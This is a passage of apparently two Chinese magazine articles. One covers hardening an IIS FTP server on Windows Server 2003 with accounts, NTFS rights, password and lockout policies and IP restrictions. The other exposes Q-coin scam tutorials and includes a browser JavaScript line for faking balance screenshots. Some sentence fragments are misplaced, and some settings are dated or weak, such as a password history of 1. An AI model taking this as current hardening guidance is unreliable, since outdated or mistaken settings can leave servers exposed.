








如果启用“密码必须符合复杂性要求”策略，在更改或创建账户（密码）时就会执行复杂性策略检查，密码必须符合下列最低要求：

- a. 密码不能包含账户名；
- b. 密码不能包含用户名中超过两个连续字符的部分；
- c. 密码至少有6个字符长度；
- d. 策略包含以下4类字符中的至少3类字符：英文大写字母（A-Z）、英文小写字母（a-z）、10个基本数字（0-9）、特殊字符（例如 !、$、#、%）。

#### 3. 启用密码长度最小值策略

另外，根据安全密码规则中密码长度的要求，可以双击“密码长度最小值”进行最小密码长度的设置。例如把最小长度设置为8个字符，经过这样的设置，FTP用户（乃至系统用户）的密码安全性就大大地提高了，系统安全性也就大大增强了。

## 五、使用专用账户访问FTP服务

维护型的FTP服务器使用者一般是网络管理员，所以不存在大量用户使用的问题，一般都是机构管理员在分别使用。

针对这样的情况，如果采用IIS下的FTP Server构建服务器的话，首先应该考虑的是去掉默认FTP服务器中的匿名访问，然后建立专用的FTP账户，最后为专用的FTP账户指派访问目录。

### 1. 建立专用FTP账户

假定有5个管理员需要对服务器进行经常性的维护，而且各自的工作职能不同，那就需要建立至少5个专用FTP账户（如图7）。


```
Net user ftp01 pass11@!wd /add
```

重复上述用户建立设置，依次建立ftp01~ftp05等几个账户。

### 2. 建立专用账户对应的FTP文件夹

建立好FTP专用账户以后，需要为专用账户指派FTP目录。以系统管理员身份找到根文件夹，分别为每个用户建立一个对应的文件夹，例如用户ftp01就对应ftp01文件夹、ftp02用户对应ftp02文件夹……上述几个步骤只是简单地建立了几个可用账户，远远没有达到实现安全FTP的目的，下述内容将进行详细设置。

## 六、使用NTFS约束FTP用户权限

在管理员各自对应的FTP用户建立好之后，并不能直接使用，需要对各账户进行详细的权限设置。

### 1. 将FTP用户权限限定为Guest组

使用“net user”命令建立的系统用户默认是属于“users”组，在系统中具有一定的权限。首先需要做的是删除这些FTP用户的“users”组权限，并将它指派成Guest用户组中的一员（如图8）。

使用如下命令删除刚刚建立的各账户的“users”组权限：  
Net localgroup users ftp01 /del

然后使用如下命令将该账户指派到系统的“guests”用户组：  
Net localgroup guests ftp01 /add


现在的各个FTP账户都处于“Guest”用户组，权限非常低。删除并更改完FTP用户的所属用户组以后，需要对各个FTP用户对应的文件夹进行权限设置。

### 2. 删除各FTP文件夹继承权限

以ftp01账户对应的ftp01文件夹为例，以系统管理员身份登录，选中文件夹并右键选择“安全”选项卡。默认情况下这里有非常多的已经继承于上级文件夹的权限，我们需要做的是删除这些默认的权限。但是在删除的时候会出现系统提示：因为“SYSTEM”从其父级继承权限，您无法删除此对象。要删除“SYSTEM”必须阻止对象继承权限。关闭继承权限的选项，然后重试删除“SYSTEM”。因为权限是继承上级文件夹的，所以不能直接删除，需要单击“高级”按钮，进入此文件夹的“高级安全设置”（如图9）。

### 3. 为FTP用户指派文件夹访问权限

此时的文件夹是系统中很多用户都不能直接使用的，连管理员也无法直接打开。这时候需要为FTP账户指派访问权限。选中文件夹“安全”选项卡下的“添加”，分别选择“高级-立即查找”，选中上述建立的FTP专用用户即可。此时ftp01默认已经有部分权限，包括“读取和运行”“列出文件夹目录”“读取”3种。

员们使用的维护型FTP，显然需要经常使用上传功能，所以这里需要选中“写入”权限。

上述各选项均为基本的FTP设置选项，完成以后具有一定安全性的维护型FTP服务器就建立好了，但是要做到高安全性还是不够，需要进行其他一些设置。



图9

## 七、强制密码更改时间与强制密码历史策略

如果遇到构造巧妙的暴力破解攻击，管理员是很难受的。一个安全的、少数人使用的FTP服务器中，每个用户应当经常性（在用户可以承受的日期以内）地修改密码，以缩短被暴力破解的时间，保护密码安全是需要重点注意的。在Windows 2003 Server系统中，组策略可以使用“强制密码更改时间”和“强制密码历史”策略做到这一点。具体来说，如何在尽量不影响用户正常使用的前提下，尽量限制暴力破解的时间呢？在Windows系统下，可以使用强制密码更改时间策略实现；如何避免很多用户（包括管理员）习惯使用2、3个固定密码进行循环的非安全机制呢？可以使用强制密码历史策略。

### 1．启用强制密码更改时间策略

为了大大缩短暴力破解攻击可以发起的时间，大幅降低暴力破解的成功率，在不影响用户的正常使用的前提下，强制性地要求用户定期修改自己的FTP密码是非常重要的一个安全措施——组策略可以完成这样的策略指派。

使用“gpedit.msc”命令打开组策略编辑器，在“计算机配置”下的“安全设置”“账户策略”“密码策略”下，可以看到“密码最短使用期限”和“密码最长使用期限”。

“密码最长使用期限”这个安全设置是确定系统要求用户更改密码之前可以使用该密码的时间（单位为天），也就是设定一个时间控制用户必须在多少天之内修改密码。管理员可以将密码的过期天数设置在1～999天之间。具体来说，分为以下3种情况：如果将天数设置为0，则指定密码永不过期；如果密码最长使用期限在1～999天之间，那么“密码最短使用期限”必须小于密码最长使用期限；如果密码最长使用期限设置为0，则密码最短使用期限可以是1～998天之间的任何值。

兼顾到正常用户的使用，这里建议设置的密码过期天数是30～90天。这是一种实际证明比较优秀的安全策略。通过这种方式，攻击者只能在有限的时间内破解用户密码。这个策略应该和上面的最长使用期限相配合，合理的设置应该是30天左右。

### 2．启用强制密码历史策略

“强制密码历史”策略是指用户在重新使用旧密码之前，该用户所使用的新密码必须不能与自己所使用的最近的旧密码一样。该策略通过确保旧密码不能在某段时间内重复使用，使用户账户更安全。需要说明的是，如果管理员希望“强制密码历史”安全策略选项设置有效，需要将“密码最短有效期”配置为大于0。如果没有密码最短有效期，则FTP用户可以重复循环不符合密码规则的密码，直到获得喜欢的旧密码。

默认设置不遵从这种推荐方法，因此管理员可以为用户指定密码，然后要求当用户登录时更改管理员定义的密码。

如果将该密码的历史记录设置为0，则用户不必选择新密码。因此，一般情况下将密码历史记录设置为1。

## 八、错误锁定策略指派

通过上文的一些设置，现在的密码安全策略已经有了保障，但是面对头疼的暴力破解攻击，如何让FTP服务器具有强悍的防御能力呢？这就需要使用错误锁定策略。

### 1．定义账户锁定阈值

“错误锁定”策略在组策略“计算机配置”中的“安全设置”“账户策略”“密码策略”下。双击打开“账户锁定阈值”，这个安全策略确定导致FTP用户账户被锁定的登录尝试失败的次数，在管理员重置锁定账户或账户锁定时间期满之前，无法使用该锁定账户。也就是说，如果达到管理员设置的登录错误次数，则该账户将被锁定。管理员可以将登录尝试失败次数设置为介于0～999之间的值，如果将值设置为0，则永远不会锁定账户。

一般情况下，为了对暴力破解（或者社会工程学猜解）攻击的防御，设置账号登录的最大次数在5～10次左右，如果攻击者尝试登录该账户超过此数值，账号会被自动锁定。

是被允许访问中的一员，从而让攻击者达到攻击服务器的目的。不过这样的攻击难度实在太大，相信没有几个攻击者愿意尝试。

#### 2. 定义账户锁定时间

设置完“错误锁定”策略后，打开“账户锁定时间”策略，这里设置FTP账号被锁定的时间，账号一旦被锁定，超过这个时间值，才能重新使用，界面（如图10）。



图10


图11

## 九、启用目录安全性杜绝大多数各类FTP攻击

经过上述设置，一个安全性足够、使用效率很高的FTP服务器已经架设成功。但是作为一个专门为管理员服务的维护型FTP服务器，如果能做到下面的一个设置，将把整体的安全性提高至少2个档次！

不管是什么样的FTP攻击，能登录是最基本的一个步骤，也是绝大部分攻击发起的目标成果。如果系统管理员采用“一招制敌”的方式，直接掐断非法用户的FTP登录功能，让攻击者无法使用（或者非常难使用）暴力破解攻击，让攻击者得到FTP账户密码也没有登录权限的话，就能解决起码90%以上的攻击！

在IIS的FTP Server中，“目录安全性”可以实现这个功能，不过根据管理员不同的环境，策略会有些许变化。

依次指向IIS管理器的FTP站点，右击并选择“FTP属性”，打开“目录安全性”，在界面中选择“拒绝访问”，然后单击“添加”按钮定义允许访问的单一计算机、多台计算机。设置好的界面“目录安全性”是通过FTP用户的登录IP进行判断的一种机制。上图中的“拒绝访问”代表默认拒绝所有IP的FTP使用请求，除非请求登录FTP的计算机IP地址包含在“下面列出的除外”列表框中（如图11）。

通过这个设置，管理员可以控制唯一的，或者是极少的绝对信任IP可以使用。例如，在一个大型的公司网络中，全部员工都是使用固定IP连接网络（或使用固定IP地址的出口网关上网），管理员可以定义只允许此IP地址的计算机或计算机群进行FTP服务器的使用，其他地址均不能访问FTP服务器。

经过这样的设置，所有的外部攻击者都被阻挡在FTP服务器以外了。不过这个功能在两种情况下可能存在缺陷：第一种情况是攻击者使用了IP伪造技术，不但成功欺骗了互联网，还成功欺骗了服务器，让服务器以为攻击者就是被允许访问中的一员，从而让攻击者达到攻击服务器的目的。

第二种情况是攻击者通过渗透攻击等方式，控制了和服务器管理员同IP的计算机，比如管理员的同事等，然后在管理员同事的计算机上进行FTP攻击。当然，这样的渗透攻击本身就难于FTP攻击，所以现实中存在的类似攻击也是相当少。

## 十、对配置后的服务器进行最后的演练

有防御就有攻击，任何安全工程师都不可能说自己构建的防御体系是完美的，是不可能被攻破的。所以下面将针对上述的各项安全措施防御的维护型FTP服务器，进行理论化的高级攻防演练：

如果攻击者采用传统的暴力破解技术，那无疑是不能直接对上述加固后的FTP服务器进行穷举的，因为FTP服务器不但有IP限制策略，也就是目录安全性策略，就算攻击者成功地获得了一台允许使用FTP服务器的计算机（或某IP），有很大几率会卡在FTP服务器的端口隐藏策略、密码安全策略、密码更换策略、账户登录错误锁定策略等相关安全策略之中。

就现在的网络技术而言，一般情况下要对上述的安全FTP服务器进行暴力破解，成功率接近于零。如果攻击者想采用漏洞攻击，先不说目录安全性策略是否能绕过，就目前存在的、公开的漏洞来看，这样的漏洞还没有可用的（当然，不排除有非常牛的攻击者研究出了IIS下的FTP惊天漏洞而未公布）。如果攻击者采用嗅探技术获得上述FTP服务器的密码，那么接着需要解决的就是目录安全性的问题（也就是IP策略）、可能遇到的密码定期更改问题等。

总的来说，上述IIS下FTP服务器可能随着攻防技术的不断进步而产生漏洞，但就目前的技术水平来看，单就FTP服务本身而言（不包括服务器其他方面的服务出现漏洞等情况），安全性有了显著提高。

## Q币骗局大详解

丁济邦

首先，这篇文章没有什么技术含量，这只是我的感受，老鸟跳过。众所周知，想玩QQ的人都需要Q币。玩游戏，买装备，买时装，办业务等等，可是谁不想白白地弄Q币呢？想入侵腾讯的服务器？呵呵，这至少不是我们这个等级的小黑可以办到的。于是，网上就有些人想到了这些人的心理，出现了许多的刷Q币的软件、教程。一看就知道是假的！可是还真的就有小白上他们的当！

今天我就带领X的菜鸟们看看他们的面纱后面什么！

首先我们打开度娘，输入“刷Q币”！（如图1）找到相关结果约2,440,000个！唉，旁观者悲哀啊！



图2


图1



图3

### 1. 教程式刷法解密

首先如图2所示，看到了么，还挺详细的，还截了好多的图，貌似很真的样子。我们看到他会说有什么刷Q币代码，其实那就是QQ号！看看他们说的，什么不要充5元10元的，要充20-300的……多么可恶啊！（如图3）

可能有人不信，或者没有看明白，于是他们就搜视频，于是有了下文。


图4



这里先告诉大家一个方法，进入查询余额页面，在浏览器输入“javascript:document.body.contentEditable='true';document.designMode='on';void 0”这行代码，这时候你会发现你的鼠标变成编辑文本的样式了。你把鼠标移动到QQ余额那里，按删除键，图片没了，随意输入几个数（如图4），看到了么，够如假包换吧！


### 2. 视频式刷法解密

视频的就是教程的升级版，如果用教程的图还可以PS一下，那么视频呢？

我们不要管他什么，只要是刷钻就很假啦！我们先看看图，看到了么，他还把自己的QQ号搜索了一下以证明这是真的。（如图5、6）。



### 3. 软件式刷法解密

这个其实最假了！谁会不知道这是盗号呢！可是笨白们还是使用，难道你们就不想想，让你输入QQ和密码，你们真的就输入吗？轻则盗号，还会中病毒。呵呵，看看这界面还挺华丽（如图7、8、9），种马的、盗号的一应俱全，什么？杀毒软件？那免杀是干什么的呢？



### 4. 宽带式刷法解密

我最烦的也就是这个，这种刷法要一定的技术，肉鸡的宽带金领来刷，不是什么好行为，这里我就不多说了！

### 5. 手机式刷法解密

